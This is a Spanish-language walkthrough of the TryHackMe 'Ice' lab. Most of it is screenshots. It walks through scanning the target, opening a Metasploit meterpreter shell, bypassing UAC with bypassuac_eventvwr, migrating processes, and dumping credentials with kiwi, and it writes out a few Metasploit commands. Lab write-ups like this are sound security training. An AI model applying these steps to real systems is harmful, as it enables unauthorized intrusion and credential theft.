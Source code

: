 # THM - Ice
[TryHackMe-Ice](https://tryhackme.com/room/ice)

Para comenzar el análisis se realiza un **nmap** a la ip de la máquina.

![Nmap](/img/ice1.png)

*Try Hack Me*  
![THM1](/img/ice2.png)

*Try Hack Me*  
![THM2](/img/ice3.png)

*Try Hack Me*  
![THM3](/img/ice4.png)

Una vez se conoce el programa vulnerable, puede buscarse el CVE asociado.

![cve](/img/ice5.png)

*Try Hack Me*  
![THM4](/img/ice6.png)

*Try Hack Me*  
![THM5](/img/ice7.png)

A continuación hay que buscar un *exploit* en **Metasploit**, con el comando *msfconsole*.

![msfconsole](/img/ice8.png)

*Try Hack Me*  
![THM6](/img/ice9.png)

Configurar las opciones del *exploit*.

![options](/img/ice10.png)

*Try Hack Me*  
![THM7](/img/ice11.png)

```
set rhosts (ip THM)
set lhost (ip vpn)
run
```

Al lanzar el *exploit* se accede a la terminal ***meterpreter***.

![meterpreter](/img/ice12.png)

*Try Hack Me*  
![THM8](/img/ice13.png)

Se identifica al usuario del sistema.

![getuid](/img/ice14.png)

*Try Hack Me*  
![THM9](/img/ice15.png)

Ver la información del sistema.

![sysinfo1](/img/ice16.png)

*Try Hack Me*  
![THM10](/img/ice17.png)

*Try Hack Me*  
![THM11](/img/ice18.png)

Ejecutar el comando que propone el enunciado.

![comando](/img/ice19.png)

*Try Hack Me*  
![THM12](/img/ice20.png)

Pulsar *Ctrl + z* para volver a la consola de Metasploit.

Ver las opciones del *exploit*.

![options2](/img/ice21.png)

*Try Hack Me*  
![THM13](/img/ice22.png)

Ejecutar lo siguiente:  
```
use exploit/windows/local/bypassuac_eventvwr
set session (sesión de meterpreter)
set lhost (ip vpn)
run
```

Una vez dentro de la nueva consola de *meterpreter* ver los privilegios.

![privilegios](/img/ice23.png)

*Try Hack Me*  
![THM14](/img/ice24.png)

Ver la lista de procesos e identificar el de *spool*.

![procesos](/img/ice25.png)

*Try Hack Me*  
![THM15](/img/ice26.png)

Migrar a dicho proceso e identificar al usuario.

![migrar](/img/ice27.png)

*Try Hack Me*  
![THM16](/img/ice28.png)

Cargar *kiwi* y ver los comandos disponibles ejecutando *help* y buscar el que otorga todas las credenciales.

![credenciales](/img/ice29.png)

*Try Hack Me*  
![THM17](/img/ice30.png)

Buscar la contraseña del usuario.

![contraseña](/img/ice31.png)

*Try Hack Me*  
![THM18](/img/ice32.png)

Ver la lista de comandos y buscar los requeridos en cada pregunta.

![hashdump](/img/ice33.png)

*Try Hack Me*  
![THM19](/img/ice34.png)

![screenshare](/img/ice35.png)

*Try Hack Me*  
![THM20](/img/ice36.png)

![record_mic](/img/ice37.png)

*Try Hack Me*  
![THM21](/img/ice38.png)

![timestomp](/img/ice39.png)

*Try Hack Me*  
![THM22](/img/ice40.png)